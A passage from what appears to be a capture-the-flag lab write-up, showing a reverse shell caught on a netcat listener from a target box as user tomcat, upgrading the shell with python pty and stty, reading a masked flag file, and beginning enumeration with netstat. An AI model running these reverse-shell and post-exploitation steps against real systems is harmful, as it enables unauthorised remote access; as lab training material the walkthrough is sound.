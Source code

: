 Then there's a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.205.
    Ncat: Connection from 10.10.10.205:42124.
    bash: cannot set terminal process group (944): Inappropriate ioctl for device
    bash: no job control in this shell
    tomcat@VirusBucket:/opt/tomcat$



I'll use `python -c 'import pty;pty.spawn("bash")'` then Ctrl-z,
`stty raw -echo; fg`, `reset` to get a better shell, and then grab
`user.txt`:



    tomcat@VirusBucket:~$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    tomcat@VirusBucket:~$ ^Z
    [1]+  Stopped                 sudo nc -lnvp 443
    root@kali$ stty raw -echo; fg
    sudo nc -lnvp 443
                     reset
    reset: unknown terminal type unknown
    Terminal type? screen
    tomcat@VirusBucket:~$ 
    tomcat@VirusBucket:~$ cat user.txt
    1f07a492************************



## Shell as root in container

### Enumeration

Looking around the box, the home directory was basically empty. The box
also limited the process list to processes that were being run by the
current user, so there wasn't much there. What got me going in the right
direction was looking at the `netstat`:



    tomcat@VirusBucket:~$ netstat -tnl 
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State      
    tcp        0      0 127.0.0.1:35217         0.0.0.0:*               LISTEN     
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
    tcp        0      0 127.0.0.1:4505          0.0.0.0:*               LISTEN     
    tcp        0      0 127.0.0.1:4506          0.0.0.0:*               LISTEN     
    tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN     
    tcp6       0      0 :::22                   :::*                    LISTEN     
    tcp6       0      0 127.0.0.1:8005          :::*                    LISTEN     
    tcp6       0      0 :::8080                 :::*                    LISTEN
